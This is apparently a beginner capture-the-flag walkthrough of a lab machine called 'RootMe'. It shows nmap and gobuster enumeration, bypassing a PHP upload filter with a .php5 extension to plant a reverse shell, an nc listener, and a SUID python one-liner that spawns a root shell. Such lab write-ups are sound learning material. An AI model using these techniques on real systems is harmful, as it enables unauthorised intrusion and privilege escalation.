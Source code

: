 # RootMe

![image](https://user-images.githubusercontent.com/44063862/94501784-3b849900-0235-11eb-924c-f15926a6864e.png)

## Penetration Testing Methodology

**Reconnaissance**
* nmap

**Enumeration**
* Directory enumeration using gobuster

**Exploitation**
* 

**Privilege Escalation**
* /usr/bin/python

**Capturing the flag**
* user.txt
* root.txt
_______________________________________________________________________________________________________

## Walkthrough

```
nmap -sC -sV 10.10.231.227
```

![image](https://user-images.githubusercontent.com/44063862/94507849-375f7800-0243-11eb-81ef-82e0e449c84c.png)

From the nmap scanning. I found that 2 port open. Which is
* 22 (ssh)
* 80 (http)

I browse the given IP address.

![image](https://user-images.githubusercontent.com/44063862/94501885-6838b080-0235-11eb-8aa9-bce47bb4f992.png)

But, there is nothing interesting. So, I decide to enumerate the directory. By using gobuster.

```
gobuster dir -u 10.10.231.227 -w /root/List/directory-list-2.3-medium.txt=
```

> list all directory or file 

![image](https://user-images.githubusercontent.com/44063862/94506088-2e6ca780-023f-11eb-8463-bb88096f6449.png)

Open the directory (http://10.10.231.227/p****/)

Seems like we can upload a file.

Upload reverseshell and run a listener

```
nc -nlvp 1234
```

![image](https://user-images.githubusercontent.com/44063862/94506867-fbc3ae80-0240-11eb-9d51-d13eca9a5d17.png)

Cannot upload php file. Lets try change to php5 or php4.

![image](https://user-images.githubusercontent.com/44063862/94506938-244ba880-0241-11eb-9352-51d46911123c.png)

Okay success.

![image](https://user-images.githubusercontent.com/44063862/94507014-5a892800-0241-11eb-9e86-071c775a3f5e.png)

Click and we will get into system.

```
find / -name user.txt 2>/dev/null
```

## Privilege Escalation

/usr/bin/python

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```


CONGRATULATIONS!! This was a fun machine. Very basic yet fun to root. Good for beginner.

Thank you for reading. :)

**By _AdaniKamal_**

